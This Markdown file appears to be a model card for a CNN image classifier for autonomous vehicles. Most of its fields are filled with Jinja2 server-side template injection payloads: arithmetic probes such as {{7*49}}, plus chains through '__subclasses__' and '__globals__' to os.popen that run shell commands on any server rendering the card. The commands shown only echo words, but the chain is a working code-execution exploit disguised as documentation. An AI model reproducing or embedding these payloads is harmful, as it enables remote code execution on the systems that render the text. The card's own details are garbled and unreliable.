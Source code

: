 # {{7*7}} CNN Model v{{1}}.{{2}}.{{0}}



## Model Overview



**Model Name:** {{7*120}} CN{{4*2329}}N Model {{4*2329}}{{4*2329}}{{4*2329}}{{4*2329}} \n\n\n\n\{{config.items().__class__.__bases__[0].__subclasses__()[104].__init__.__globals__['sys'].version.split()[0]}}
**Description:** A convolutional neural network for {{''|attr('__class__')|attr('__name__')}} image classification in autonomous vehicles  
**Version:** {{1}}.{{2}}.{{02323232323111}}  
**License:** Apache-{{2}}.{{0}}  
**Release Date:** {{2024}}-{{1+0}}-{{15}}  
**Purpose:** Image classification for autonomous vehicles  
**Third Party:** {{False|string}}



---

## Model Architecture



### Architecture Details



**Architecture Type:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Convolutional')|attr('read')()|attr('strip')()}} Neural Network



**Framework:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo PyTorch')|attr('read')()|attr('strip')()}}



**Number of Layers:** {{15}}  
**Total Parameters:** {{2500000}} ({{2}}.{{5}} Million)

### Training Parameters



**Learning Rate:** {{0.001}}  
**Epochs:** {{100}}  
**Batch Size:** {{32}}  
**Optimizer:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Adam')|attr('read')()|attr('strip')()}}
